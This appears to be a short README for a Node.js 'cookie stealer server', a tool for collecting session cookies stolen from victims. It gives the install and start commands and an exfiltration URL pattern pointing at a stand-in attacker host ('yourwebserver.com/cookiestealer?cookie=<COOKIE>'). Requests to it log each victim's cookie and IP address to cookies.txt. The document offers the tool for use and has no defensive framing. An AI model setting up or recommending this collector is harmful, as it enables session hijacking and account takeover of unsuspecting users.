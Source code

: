 # simle-cookie-stealer-server

in node.js...

How To Set Up
```
npm install express
npm start / node index.js
```

How It Works?
```
http://yourwebserver.com/cookiestealer?cookie=<COOKIE>
When Someone Enters The URL, below the specified "cookie" and users ip will log in cookies.txt
```

